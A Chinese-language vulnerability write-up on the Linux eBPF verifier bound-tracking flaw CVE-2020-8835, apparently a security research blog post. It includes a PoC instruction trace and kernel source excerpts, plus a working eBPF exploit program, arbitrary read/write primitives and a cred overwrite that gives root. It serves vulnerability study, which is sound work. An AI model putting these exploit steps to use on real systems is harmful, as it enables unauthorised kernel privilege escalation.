





### 漏洞分析

为了更加精确地规定寄存器的访问范围，linux kernel 引入了reg_bound_offset32函数来获取范围，在调用jmp32之后执行。 如umax为0x7fffffff，var_off为0xfffffffc，取其并集算出的结果应为0x7ffffffc。 而漏洞点就在于引入的reg_bound_offset32函数，该函数计算的结果并不正确。 如执行以下代码：

```

5: R0_w=inv1 R1_w=inv(id=0) R10=fp0
5: (18) r2 = 0x4000000000
7: (18) r3 = 0x2000000000
9: (18) r4 = 0x400
11: (18) r5 = 0x200
13: (2d) if r1 > r2 goto pc+4
14: (ad) if r1 < r3 goto pc+3
15: (2e) if w1 > w4 goto pc+2
16: (ae) if w1 < w5 goto pc+1

```

64位下的范围为：

```
reg->umin_value = 0x2000000000
reg->umax_value = 0x4000000000
p->var_off.mask = 0x7fffffffff
```

而在32位下，寄存器的范围为[0x200, 0x400]，正常预期获得的reg->var_off.mask应为0x7f000007ff，或者不精确时为0x7fffffffff。但通过__reg_bound_offset32函数获取的结果如下：

```
reg->umin_value: 0x2000000000
reg->umax_value: 0x4000000000
reg->var_off.value: 0x0
reg->var_off.mask: 0x7f00000000
```

对于reg->var_off.mask的计算错误，有可能造成后续的判断或计算错误，使得bpf在验证时和实际运行时计算结果不同，最终导致信息泄露和权限提升。  

#### poc分析

```
 0: (b7) r0 = 808464432
   1: (7f) r0 >>= r0
   2: (14) w0 -= 808464432
   3: (07) r0 += 808464432
   4: (b7) r1 = 808464432
   5: (de) if w1 s<= w0 goto pc+0
   6: (07) r0 += -2144337872
   7: (14) w0 -= -1607454672
   8: (25) if r0 > 0x30303030 goto pc+0
   9: (76) if w0 s>= 0x303030 goto pc+2
  10: (05) goto pc-1
  11: (05) goto pc-1
  12: (95) exit

```

在bpf验证这段程序时，会通过is_branch_taken函数对跳转进行判断：

```

/* compute branch direction of the expression "if (reg opcode val) goto target;"
 * and return:
 *  1 - branch will be taken and "goto target" will be executed
 *  0 - branch will not be taken and fall-through to next insn
 * -1 - unknown. Example: "if (reg < 5)" is unknown when register value range [0,10]
 */
static int is_branch_taken(struct bpf_reg_state *reg, u64 val, u8 opcode,
               bool is_jmp32)

```

通过调试，可以看到其中对于第9条指令（BPF_JSGE）的跳转如下：

 

是通过reg->smin_value和sval进行比较判断，由于var_off的计算错误，间接导致smin_value的结果错误，使得BPF_JSGE的跳转恒成立。 而在实际运行时，w0为-536883200，为负数，小于0x00303030，所以第9条指令" if w0 s>= 0x303030 goto pc+2 "不跳转，执行下一条执行，而下一条指令被填充了dead_code（goto pc-1）。

 
 

绿框表示下一条要执行的指令(rbx寄存器保存着当前执行指令在jumptable数组中的偏移，加0x8表示下一条指令）

而所谓的dead_code其实就是填充下一条指令为“BPF_JMP_IMM(BPF_JA, 0, 0, -1);”

```
static void sanitize_dead_code(struct bpf_verifier_env *env)
{
    struct bpf_insn_aux_data *aux_data = env->insn_aux_data;
    struct bpf_insn trap = BPF_JMP_IMM(BPF_JA, 0, 0, -1);
    struct bpf_insn *insn = env->prog->insnsi;
    const int insn_cnt = env->prog->len;
    int i;

    for (i = 0; i < insn_cnt; i++) {
        if (aux_data[i].seen)
            continue;
        memcpy(insn + i, &trap, sizeof(trap));
    }
}
```

造成了死循环。

### 漏洞利用

要对该漏洞完成利用，需要考虑计算错误的var_off.mask在后续哪些操作中会造成影响，从而导致检查时和运行时不一致。 我们找到了BPF_AND操作：

```
kernel/bpf/verifier.c:4937
    case BPF_AND:
        if (src_known && dst_known) {
            __mark_reg_known(dst_reg, dst_reg->var_off.value &
                          src_reg.var_off.value);
            break;
        }
        /* We get our minimum from the var_off, since that's inherently
         * bitwise.  Our maximum is the minimum of the operands' maxima.
         */
        dst_reg->var_off = tnum_and(dst_reg->var_off, src_reg.var_off);// ****
          ……
```

实际上的AND操作是在tnum_and中进行：

```
struct tnum tnum_and(struct tnum a, struct tnum b)
{
    u64 alpha, beta, v;

    alpha = a.value | a.mask;
    beta = b.value | b.mask;
    v = a.value & b.value;
    return TNUM(v, alpha & beta & ~v);
}
```

该操作前的寄存器状态为：

```

$12 = {type = 0x1, {range = 0x0, map_ptr = 0x0, btf_id = 0x0, raw = 0x0}, off = 0x0, id = 0x0, 
  ref_obj_id = 0x0, var_off = {value = 0x0, mask = 0x7f00000000}, smin_value = 0x2000000000, 
  smax_value = 0x4000000000, umin_value = 0x2000000000, umax_value = 0x4000000000, parent = 0xffff88801f97ab40, 
  frameno = 0x0, subreg_def = 0x0, live = 0x0, precise = 0x1}
```

tnum_and操作后的状态为：
```
$16 = {type = 0x1, {range = 0x0, map_ptr = 0x0, btf_id = 0x0, raw = 0x0}, off = 0x0, id = 0x0, 
  ref_obj_id = 0x0, var_off = {value = 0x0, mask = 0x0}, smin_value = 0x2000000000, smax_value = 0x4000000000,
  umin_value = 0x0, umax_value = 0xffffffff, parent = 0xffff88801f97ab40, frameno = 0x0, subreg_def = 0x0,
  live = 0x4, precise = 0x1}
```

tnum_and操作导致var_off.value=0, var_off.mask=0。之后调用 __update_reg_bounds函数时，导致reg->smin_value=0，reg->smax_value=0

```
$48 = {type = 0x1, {range = 0x0, map_ptr = 0x0, btf_id = 0x0, raw = 0x0}, off = 0x0, id = 0x0, 
  ref_obj_id = 0x0, var_off = {value = 0x0, mask = 0x0}, smin_value = 0x0, smax_value = 0x0, umin_value = 0x0,
  umax_value = 0x0, parent = 0xffff88801f97c340, frameno = 0x0, subreg_def = 0x0, live = 0x4, precise = 0x1}
```

这里相当于在检查时寄存器的值为0，而实际运行时寄存器是正常值。 进而绕过检查，可以对map指针进行加减操作，导致越界读写：

```
 adjust_ptr_min_max_vals():
 case PTR_TO_MAP_VALUE:
                if (!env->allow_ptr_leaks && !known && (smin_val < 0) != (smax_val < 0)) {
                        verbose(env, "R%d has unknown scalar with mixed signed bounds, pointer arithmetic with it prohibited for !root\n",
                                off_reg == dst_reg ? dst : src);
                        return -EACCES;
                }
```

其实这里的越界读写，bpf在执行完do_check后会调用fixup_bpf_calls，检查加减操作，并做了防止越界的patch：
```
    if (insn->code == (BPF_ALU64 | BPF_ADD | BPF_X) ||
            insn->code == (BPF_ALU64 | BPF_SUB | BPF_X)) {
            const u8 code_add = BPF_ALU64 | BPF_ADD | BPF_X;
            const u8 code_sub = BPF_ALU64 | BPF_SUB | BPF_X;
            struct bpf_insn insn_buf[16];
            struct bpf_insn *patch = &insn_buf[0];
            bool issrc, isneg;
            u32 off_reg;

            aux = &env->insn_aux_data[i + delta];
            if (!aux->alu_state ||
                aux->alu_state == BPF_ALU_NON_POINTER)
                continue;

            isneg = aux->alu_state & BPF_ALU_NEG_VALUE;
            issrc = (aux->alu_state & BPF_ALU_SANITIZE) ==
                BPF_ALU_SANITIZE_SRC;

            off_reg = issrc ? insn->src_reg : insn->dst_reg;
            if (isneg)
                *patch++ = BPF_ALU64_IMM(BPF_MUL, off_reg, -1);
            *patch++ = BPF_MOV32_IMM(BPF_REG_AX, aux->alu_limit - 1);
            *patch++ = BPF_ALU64_REG(BPF_SUB, BPF_REG_AX, off_reg);
            *patch++ = BPF_ALU64_REG(BPF_OR, BPF_REG_AX, off_reg);
            *patch++ = BPF_ALU64_IMM(BPF_NEG, BPF_REG_AX, 0);
            *patch++ = BPF_ALU64_IMM(BPF_ARSH, BPF_REG_AX, 63);
```

上述代码的效果实际上是添加了以下指令，来对加减的寄存器范围作了限制，防止越界：
 
 

#### 漏洞利用一

我们可以通过对指针进行不停累加，进而绕过该补丁。但我们在实际编写利用过程中，有数据的地址离map太远，累加次数过多，而bpf又限制指令的数量。 所以我们转而对栈指针进行越界读写，发现可以做到栈溢出。之后覆盖返回地址即可，但需要通过rop技术绕过smep、smap和kpti保护机制。

#### 漏洞利用二

##### （1）越界读写进行信息泄露

```
mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY,key_size,value_size,max_entries,0);

key_size：表示索引的大小范围，key_size=sizeof(int)=4.
value_size：表示map数组每个元素的大小范围，可以任意，只要控制在一个合理的范围
max_entries：表示map数组的大小，编写利用时将其设为1
```

**泄露内核地址**

bpf_create_fd 创建的是一整个bpf_array结构，我们传入的数据放在value[] 处

```
struct bpf_array {
    struct bpf_map map;
    u32 elem_size;
    u32 index_mask;
    struct bpf_array_aux *aux;
    union {
        char value[];//<--- elem
        void *ptrs[];
        void *pptrs[];
    };
}
```

value[]在bpf_array整个结构的偏移为0x110，所以*(&map-0x110)为bpf_map的结构地址

```
struct bpf_map {
    const struct bpf_map_ops *ops;
    struct bpf_map *inner_map_meta;
    void *security;
    enum bpf_map_type map_type;
    //....
    u64 writecnt;
}
```

bpf_map 有一个const struct bpf_map_ops *ops; 字段，当我们创建的map是BPF_MAP_TYPE_ARRAY 的时候保存的是array_map_ops, array_map_ops 是一个全局变量，可以用于泄露内核地址

**泄露map_elem地址**

&exp_elem[0]-0x110+0xc0（wait_list）处保存着指向自身的地址，用于泄露exp_elem的地址

```
(gdb) p/x &(*(struct bpf_array *)0x0)->map.freeze_mutex.wait_list
$9 = 0xc0
```

#####（2）利用任意读

通过BPF_OBJ_GET_INFO_BY_FD 命令进行任意读，BPF_OBJ_GET_INFO_BY_FD 会调用bpf_obj_get_info_by_fd：

```
case BPF_OBJ_GET_INFO_BY_FD:
        err = bpf_obj_get_info_by_fd(&attr, uattr);

#define BPF_OBJ_GET_INFO_BY_FD_LAST_FIELD info.info
static int bpf_obj_get_info_by_fd(const union bpf_attr *attr,
                  union bpf_attr __user *uattr)
{
    int ufd = attr->info.bpf_fd;
    struct fd f;
    int err;

    if (CHECK_ATTR(BPF_OBJ_GET_INFO_BY_FD))
        return -EINVAL;

    f = fdget(ufd);
    if (!f.file)
        return -EBADFD;

    if (f.file->f_op == &bpf_prog_fops)
        err = bpf_prog_get_info_by_fd(f.file->private_data, attr,
                          uattr);
    else if (f.file->f_op == &bpf_map_fops)
        err = bpf_map_get_info_by_fd(f.file->private_data, attr,
                         uattr);
                         ……
```

之后调用bpf_map_get_info_by_fd：

```
static int bpf_map_get_info_by_fd(struct bpf_map *map,
                  const union bpf_attr *attr,
                  union bpf_attr __user *uattr)
{
    struct bpf_map_info __user *uinfo = u64_to_user_ptr(attr->info.info);
    struct bpf_map_info info = {};
    u32 info_len = attr->info.info_len;
    int err;

    err = bpf_check_uarg_tail_zero(uinfo, sizeof(info), info_len);
    if (err)
        return err;
    info_len = min_t(u32, sizeof(info), info_len);

    info.type = map->map_type;
    info.id = map->id;
    info.key_size = map->key_size;
    info.value_size = map->value_size;
    info.max_entries = map->max_entries;
    info.map_flags = map->map_flags;
    memcpy(info.name, map->name, sizeof(map->name));

    if (map->btf) {
        info.btf_id = btf_id(map->btf); // 修改map->btf 就可以进行任意读，获得btf_id，在btf结构偏移0x58处
        info.btf_key_type_id = map->btf_key_type_id;
        info.btf_value_type_id = map->btf_value_type_id;
    }

    if (bpf_map_is_dev_bound(map)) {
        err = bpf_map_offload_info_fill(&info, map);
        if (err)
            return err;
    }

    if (copy_to_user(uinfo, &info, info_len) || // 传到用户态的info中，泄露信息
        put_user(info_len, &uattr->info.info_len))
        return -EFAULT;

    return 0;
}
```
```
u32 btf_id(const struct btf *btf)
{
    return btf->id;
}
```
```
(gdb) p/x &(*(struct btf*)0)->id  #获取id在btf结构中的偏移
$56 = 0x58

(gdb) p/x &(*(struct bpf_map_info*)0)->btf_id #获取btf_id在bpf_map_info中偏移
$57 = 0x40
```

所以只需要修改map->btf为target_addr-0x58，就可以泄露到用户态info中，泄漏的信息在struct bpf_map_info 结构偏移0x40处，由于是u32类型，所以只能泄露4个字节。

利用代码如下：
```

static uint32_t bpf_map_get_info_by_fd(uint64_t key, void *value, int mapfd, void *info) 
{
    union bpf_attr attr = {
        .map_fd = mapfd,
        .key = (__u64)&key,
        .value = (__u64)value,
            .info.bpf_fd = mapfd,
            .info.info_len = 0x100,
            .info.info = (__u64)info,
    };

    syscall(__NR_bpf, BPF_OBJ_GET_INFO_BY_FD, &attr, sizeof(attr));
    return *(uint32_t *)((char *)info+0x40);
}
```

#####（3）查找task_struct

```
ksymtab 保存init_pid_ns结构的偏移，init_pid_ns字符串的偏移
kstrtab 保存init_pid_ns的字符串

(gdb) p &__ksymtab_init_pid_ns
$48 = (<data variable, no debug info> *) 0xffffffff822f2578
(gdb) x/2wx 0xffffffff822f2578
0xffffffff822f2578: 0x001527c8  0x0000a1f9
(gdb) x/10s 0xffffffff822f257c+0xa1f9
0xffffffff822fc775 <__kstrtab_init_pid_ns>: "init_pid_ns"
0xffffffff822fc781 <__kstrtabns_kernel_param_unlock>:   ""
(gdb) x/10gx 0xffffffff822f2578+0x001527c8
0xffffffff82444d40 <init_pid_ns>:   0x0000000000000002  0x0080000400000000
0xffffffff82444d50 <init_pid_ns+16>:    0xffff88801e469242  0x0000006f00000000
```

所以我们通过搜索"init_pid_ns" 字符串可以得到kstrtab_init_pid_ns的地址，之后再通过搜索匹配 地址+该地址上四个字节（表示偏移）是否等于kstrtab_init_pid_ns的地址 来判断是否为ksymtab_init_pid_ns，此时找到的地址为ksymtab_init_pid_ns+4， 减去4就是ksymtab_init_pid_ns，上面有init_pid_ns结构的偏移，与ksymtab_init_pid_ns地址相加就可以得到init_pid_ns结构的地址。

之后通过pid 和 init_pid_ns查找对应pid的task_struct，这里其实就是要理清内核的查找过程，在写利用的时候模拟走一遍。最后找到task_struct中cred位置。

内核是通过find_task_by_pid_ns函数实现查找过程的：

```
struct task_struct *find_task_by_pid_ns(pid_t nr, struct pid_namespace *ns)
{
    RCU_LOCKDEP_WARN(!rcu_read_lock_held(),
             "find_task_by_pid_ns() needs rcu_read_lock() protection");
    return pid_task(find_pid_ns(nr, ns), PIDTYPE_PID);
}
```

nr 为当前进程的pid，ns 为init_pid_ns结构地址，我们需要的是idr字段的内容

```
struct pid *find_pid_ns(int nr, struct pid_namespace *ns)
{
    return idr_find(&ns->idr, nr);
}
```
```
lib/idr.c：
void *idr_find(const struct idr *idr, unsigned long id)
{
    return radix_tree_lookup(&idr->idr_rt, id - idr->idr_base);
}
```

需要获取&idr->idr_rt 和 idr->idr_base

```
lib/radix-tree.c：
void *radix_tree_lookup(const struct radix_tree_root *root, unsigned long index)
{
    return __radix_tree_lookup(root, index, NULL, NULL);
}

void *__radix_tree_lookup(const struct radix_tree_root *root,
              unsigned long index, struct radix_tree_node **nodep,
              void __rcu ***slotp)
{
    struct radix_tree_node *node, *parent;
    unsigned long maxindex;
    void __rcu **slot;

 restart:
    parent = NULL;
    slot = (void __rcu **)&root->xa_head;
    radix_tree_load_root(root, &node, &maxindex); //将root->xa_head的值赋给node
    if (index > maxindex)
        return NULL;

    while (radix_tree_is_internal_node(node)) {
        unsigned offset;

        parent = entry_to_node(node); // parent = node & 0xffff ffff ffff fffd
        offset = radix_tree_descend(parent, &node, index); //循环查找当前进程的node
        slot = parent->slots + offset; //
        if (node == RADIX_TREE_RETRY)
            goto restart;
        if (parent->shift == 0) // 当shift为0时，退出，说明找到当前进程的node
            break;
    }

    if (nodep)
        *nodep = parent; 
    if (slotp)
        *slotp = slot; 
    return node; 
}
```

重点看radix_tree_descend函数实现：

```
RADIX_TREE_MAP_MASK : 0x3f
static unsigned int radix_tree_descend(const struct radix_tree_node *parent, 
            struct radix_tree_node **nodep, unsigned long index)
{
    unsigned int offset = (index >> parent->shift) & RADIX_TREE_MAP_MASK;  // 要读取parent->shift的值，并与0x3f 与计算
    void __rcu **entry = rcu_dereference_raw(parent->slots[offset]);  // 获取parent->slots[offset] 作为下一个node
    *nodep = (void *)entry; //
    return offset; //
}
```

radix_tree_node的结构如下：

```
#define radix_tree_node xa_node

struct xa_node {
    unsigned char   shift;      /* Bits remaining in each slot */
    unsigned char   offset;     /* Slot offset in parent */
    unsigned char   count;      /* Total entry count */
    unsigned char   nr_values;  /* Value entry count */
    struct xa_node __rcu *parent;   /* NULL at top of tree */
    struct xarray   *array;     /* The array we belong to */
    union {
        struct list_head private_list;  /* For tree user */
        struct rcu_head rcu_head;   /* Used when freeing node */
    };
    void __rcu  *slots[XA_CHUNK_SIZE];
    union {
        unsigned long   tags[XA_MAX_MARKS][XA_MARK_LONGS];
        unsigned long   marks[XA_MAX_MARKS][XA_MARK_LONGS];
    };
};
```

获得当前进程的node后就可以通过pid_task获取相应的task_struct：

```
enum pid_type
{
    PIDTYPE_PID,
    PIDTYPE_TGID,
    PIDTYPE_PGID,
    PIDTYPE_SID,
    PIDTYPE_MAX,
};
type 为PIDTYPE_PID， 值为0

#define hlist_entry(ptr, type, member) container_of(ptr,type,member)

struct task_struct *pid_task(struct pid *pid, enum pid_type type)
{
    struct task_struct *result = NULL;
    if (pid) {
        struct hlist_node *first;
        first = rcu_dereference_check(hlist_first_rcu(&pid->tasks[type]), //获取&pid->tasks[0] 的内容
                          lockdep_tasklist_lock_is_held());
        if (first)
            result = hlist_entry(first, struct task_struct, pid_links[(type)]);// first为pid_links[0]的地址，由此获得task_struct的起始地址
    }
    return result;
}
```

相关结构字段的偏移：

```
(gdb) p/x &(*(struct task_struct *)0)->pid_links[0]
$8 = 0x500
(gdb) p/x &(*(struct pid*)0x0)->tasks[0]
$10 = 0x8
```

#####（4）利用任意写

在exp_elem上填充伪造的array_map_ops，伪造的array_map_ops中将map_push_elem 填充为map_get_next_key ，这样调用map_push_elem时就会调用map_get_next_key ，并将&exp_elem[0]的地址覆盖到exp_map[0]，同时要修改 map 的一些字段绕过一些检查

```
spin_lock_off = 0
max_entries = 0xffff ffff 
//写入的index要满足(index >= array->map.max_entries), 将map_entries改成0xffff ffff
map_type = BPF_MAP_TYPE_STACK
//map 的类型是BPF_MAP_TYPE_QUEUE或者BPF_MAP_TYPE_STACK时，map_update_elem 会调用map_push_elem
```

最后调用bpf_update_elem任意写内存

```
bpf_update_elem->map_update_elem(mapfd, &key, &value, flags) -> map_push_elem(被填充成 map_get_next_key )
 ->array_map_get_next_key

static int array_map_get_next_key(struct bpf_map *map, void *key, void *next_key)   
{                                                                                   
    struct bpf_array *array = container_of(map, struct bpf_array, map);             
    u32 index = key ? *(u32 *)key : U32_MAX;                                        
    u32 *next = (u32 *)next_key;                                                    

    if (index >= array->map.max_entries) {    //index                                      
        *next = 0;                                                                  
        return 0;                                                                   
    }                                                                               

    if (index == array->map.max_entries - 1)                                        
        return -ENOENT;                                                             

    *next = index + 1;                                                              
    return 0;                                                                       
}
```

map_push_elem 的参数是value 和 uattr 的 flags, 分别对应array_map_get_next_key 的 key 和 next_key 参数，之后有index = value[0]，next = flags ， 最终效果是 *flags = value[0]+1，这里index 和 next 都是 u32 类型， 所以可以任意地址写 4个byte。

#####（5）总结

执行的bpf_insn注释：

```
    r6 保存ctrl_elem的地址，r7保存exp_elem的地址，r8为偏移
    ctrl_map 保存输入的偏移，泄露的地址，以及执行覆盖伪造的array_map_ops操作
    exp_map 保存伪造的array_map_ops

struct bpf_insn my_prog[] = {

                //-------- ctrl_mapfd
                BPF_LD_MAP_FD(BPF_REG_9,ctrl_mapfd),
                BPF_MAP_GET(0,BPF_REG_8), 
                BPF_MOV64_REG(BPF_REG_6, BPF_REG_0),              /* r_dst = (r0)   */

                BPF_LD_IMM64(BPF_REG_2,0x4000000000),
                BPF_LD_IMM64(BPF_REG_3,0x2000000000),
                BPF_LD_IMM64(BPF_REG_4,0xFFFFffff),
                BPF_LD_IMM64(BPF_REG_5,0x1),

                BPF_JMP_REG(BPF_JGT,BPF_REG_8,BPF_REG_2,5),
                BPF_JMP_REG(BPF_JLT,BPF_REG_8,BPF_REG_3,4),
                BPF_JMP32_REG(BPF_JGT,BPF_REG_8,BPF_REG_4,3),
                BPF_JMP32_REG(BPF_JLT,BPF_REG_8,BPF_REG_5,2),

                BPF_ALU64_REG(BPF_AND,BPF_REG_8,BPF_REG_4),
                BPF_JMP_IMM(BPF_JA, 0, 0, 2),

                BPF_MOV64_IMM(BPF_REG_0,0x0),
                BPF_EXIT_INSN(),

        //-------- exp_mapfd
                BPF_LD_MAP_FD(BPF_REG_9,exp_mapfd),
                BPF_MAP_GET_ADDR(0,BPF_REG_7),
                BPF_ALU64_REG(BPF_SUB,BPF_REG_7,BPF_REG_8), // r7 = r7-0x110

                BPF_LDX_MEM(BPF_DW,BPF_REG_0,BPF_REG_7,0),    // r7 = &exp_elem[0]-0x110 , 获得array_map_ops的地址
                BPF_STX_MEM(BPF_DW,BPF_REG_6,BPF_REG_0,0x10), // leak *(&exp_elem[0]-0x110)

                BPF_LDX_MEM(BPF_DW,BPF_REG_0,BPF_REG_7,0xc0), // leak *(&exp_elem[0]-0x110+0xc0) wait_list
                BPF_STX_MEM(BPF_DW,BPF_REG_6,BPF_REG_0,0x18), //泄露 wait_list保存的地址，该地址指向自身，所以此处用于泄露exp_map的地址
                BPF_ALU64_IMM(BPF_ADD,BPF_REG_0,0x50), // r0 = &exp_map[0]，计算前r0和r7的值相同，但为什么用r0计算，因为r0是map中的数据，而r7是指针，不能往map中写指针
        // &ctrl[0]+0x8 -> op
                BPF_LDX_MEM(BPF_DW,BPF_REG_8,BPF_REG_6,0x8),  // r8 = op
                BPF_JMP_IMM(BPF_JNE, BPF_REG_8, 1, 4),

                BPF_STX_MEM(BPF_DW,BPF_REG_7,BPF_REG_0,0), // r7=&exp_elem[0]-0x110，即&exp_map[0]
                BPF_ST_MEM(BPF_W,BPF_REG_7,0x18,BPF_MAP_TYPE_STACK),//map type
                BPF_ST_MEM(BPF_W,BPF_REG_7,0x24,-1),// max_entries
                BPF_ST_MEM(BPF_W,BPF_REG_7,0x2c,0x0), //lock_off

                BPF_MOV64_IMM(BPF_REG_0,0x0),
                BPF_EXIT_INSN(),

        };
```

所以利用的整体思路是：

（1）通过漏洞，使得传进来的偏移r8检查时为0，而实际为0x110

（2）将&exp_elem[0]-0x110，获得exp_map的地址，exp_map[0] 保存着array_map_ops的地址，可以用于泄露内核地址

（3）&exp_elem[0]-0x110+0xc0（wait_list）处保存着指向自身的地址，用于泄露exp_elem的地址

（4）利用任意读查找init_pid_ns结构地址

（5）利用进程pid和init_pid_ns结构地址获取当前进程的task_struct

（6）在exp_elem上填充伪造的array_map_ops

（7）修改 map 的一些字段绕过一些检查

（8）调用 bpf_update_elem任意写内存

（9）修改进程task_struct 的cred进行提权。

提权效果图：

 
 
补充：

针对单核机器，可以通过per_cpu_offset + current_task来查找当前进程的task_struct，通过任意读获取task_struct的comm字段，匹配是否为你运行的进程。该方法适用于单核机器，并且有一定概率会crash。提权效果如下：

 
 
### 参考链接

https://cert.360.cn/report/detail?id=d42e9ec786a8fa79dd23ffc188d187fa

https://www.anquanke.com/post/id/203416

https://xz.aliyun.com/t/7690

https://www.thezdi.com/blog/2020/4/8/cve-2020-8835-linux-kernel-privilege-escalation-via-improper-ebpf-program-verification


